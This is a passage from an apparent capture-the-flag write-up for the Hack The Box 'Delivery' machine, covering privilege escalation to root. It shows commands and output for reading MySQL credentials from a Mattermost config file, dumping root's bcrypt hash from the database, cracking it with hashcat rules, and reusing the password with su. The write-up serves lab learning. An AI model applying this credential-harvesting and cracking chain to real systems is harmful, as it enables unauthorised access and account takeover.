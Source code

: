 Now Since We got user a wise man known as ippsec has passed on the knowledge to do a sudo -i and a sudo -l every time you get a user so lets to exactly that( `plus this is ippsec's box` ). and sadly we get nothing
```bash
maildeliverer@Delivery:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for maildeliverer: 
Sorry, user maildeliverer may not run sudo on Delivery.
maildeliverer@Delivery:~$ sudo -i
[sudo] password for maildeliverer: 
maildeliverer is not in the sudoers file.  This incident will be reported.
maildeliverer@Delivery:~$ 
maildeliverer@Delivery:~$ 
```
## Sql Enumeration and Exploitation
ok but in the chat we found out that a password hash may be a varient so lets look for a hash. after looking around in the box we see that there a mysql server running and that there is a mattermost config file so lets look through that after looking we find some sql config AND SOME CREDS!!!
```bash
maildeliverer@Delivery:/opt/mattermost/config$ cat config.json | grep sql -B5 -A5
        "DesktopMinVersion": "",
        "IosLatestVersion": "",
        "IosMinVersion": ""
    },
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
maildeliverer@Delivery:/opt/mattermost/config$ 

```
ok so now lets start looking through the data base... after some looking i can see there is a Users Table so lets see if there is a root hash there... AND THERE IS!!!
```sql
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -D mattermost -p
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 65
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [mattermost]> SELECT username, password FROM Users WHERE username = 'root';
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| root     | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
+----------+--------------------------------------------------------------+
1 row in set (0.001 sec)

MariaDB [mattermost]> 

```
## Cracking With Hashcat
ok so have a hash now lets use that hash with the rule `PleaseSubscribe!` But first we need to find the hash type, i personally like to use hashid so fire it up and lets get to pwning. ok so we get that this is a bcrypt type now that we know lets get to pwning...
```shell
┌─[user@parrot-virtual]─[~]
└──╼ $hashid
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
Analyzing '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
```
Also we need some rule so lets just get some, I generally use this one /usr/share/hashcat/rules/best64.rule which is normally on your computer
so lets crack, `Also remember to put the hash into a file called hash and put "PleaseSubscribe!" into a file called wordlist.txt`
```bash
hashcat -a 0 -m 3200 hash.txt wordlist.txt -r /usr/share/hashcat/rules/best64.rule -o cracked.txt -w 3 -O --show
```
and your output should be
```bash
┌─[user@parrot-virtual]─[~/HackTheBox/Delivery/cracking]
└──╼ $hashcat -a 0 -m 3200 hash.txt wordlist.txt -r /usr/share/hashcat/rules/best64.rule -o cracked.txt -w 3 -O --show
┌─[user@parrot-virtual]─[~/HackTheBox/Delivery/cracking]
└──╼ $cat cracked.txt
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
┌─[user@parrot-virtual]─[~/HackTheBox/Delivery/cracking]
└──╼ $
```
And now we have cracked the password for the MatterMost root accountbut lets just hope its the same for the system account...  and YES IT IS
```bash
maildeliverer@Delivery:~$ su root
Password: 
root@Delivery:/home/maildeliverer# cd ~
root@Delivery:~# ls
mail.sh  note.txt  py-smtp.py  root.txt
root@Delivery:~# 
```
![[Pasted image 20210405154924.png]]
### Thank You For Reading And Remeber `Dont Hate The Hacker Hate The Code`
## BYE!!!
